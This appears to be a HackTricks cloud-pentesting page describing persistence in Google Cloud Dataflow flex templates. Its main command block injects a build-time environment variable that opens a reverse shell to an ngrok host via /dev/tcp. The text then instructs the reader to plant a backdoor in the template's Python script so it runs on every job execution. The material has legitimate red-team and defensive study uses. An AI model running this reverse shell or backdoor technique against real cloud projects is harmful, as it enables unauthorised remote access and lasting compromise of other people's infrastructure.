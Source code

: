 # GCP - Dataflow Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Dataflow

### Invisible persistence in built container

Following the [**tutorial from the documentation**](https://cloud.google.com/dataflow/docs/guides/templates/using-flex-templates) you can create a new (e.g. python) flex template:

```bash
git clone https://github.com/GoogleCloudPlatform/python-docs-samples.git
cd python-docs-samples/dataflow/flex-templates/getting_started

# Create repository where dockerfiles and code is going to be stored
export REPOSITORY=flex-example-python
gcloud storage buckets create gs://$REPOSITORY

# Create artifact storage
export NAME_ARTIFACT=flex-example-python
gcloud artifacts repositories create $NAME_ARTIFACT \
 --repository-format=docker \
 --location=us-central1
gcloud auth configure-docker us-central1-docker.pkg.dev

# Create template
export NAME_TEMPLATE=flex-template
gcloud dataflow $NAME_TEMPLATE build gs://$REPOSITORY/getting_started-py.json \
 --image-gcr-path "us-central1-docker.pkg.dev/gcp-labs-35jfenjy/$NAME_ARTIFACT/getting-started-python:latest" \
 --sdk-language "PYTHON" \
 --flex-template-base-image "PYTHON3" \
 --metadata-file "metadata.json" \
 --py-path "." \
 --env "FLEX_TEMPLATE_PYTHON_PY_FILE=getting_started.py" \
 --env "FLEX_TEMPLATE_PYTHON_REQUIREMENTS_FILE=requirements.txt" \
 --env "PYTHONWARNINGS=all:0:antigravity.x:0:0" \
 --env "/bin/bash -c 'bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/13355 0>&1' & #%s" \
 --region=us-central1
```

**While it's building, you will get a reverse shell** (you could abuse env variables like in the previous example or other params that sets the Docker file to execute arbitrary things). In this moment, inside the reverse shell, it's possible to **go to the `/template` directory and modify the code of the main python script that will be executed (in our example this is `getting_started.py`)**. Set your backdoor here so everytime the job is executed, it'll execute it.

Then, next time the job is executed, the compromised container built will be run:

```bash
# Run template
gcloud dataflow $NAME_TEMPLATE run testing \
 --template-file-gcs-location="gs://$NAME_ARTIFACT/getting_started-py.json" \
 --parameters=output="gs://$REPOSITORY/out" \
 --region=us-central1
```

{{#include ../../../banners/hacktricks-training.md}}





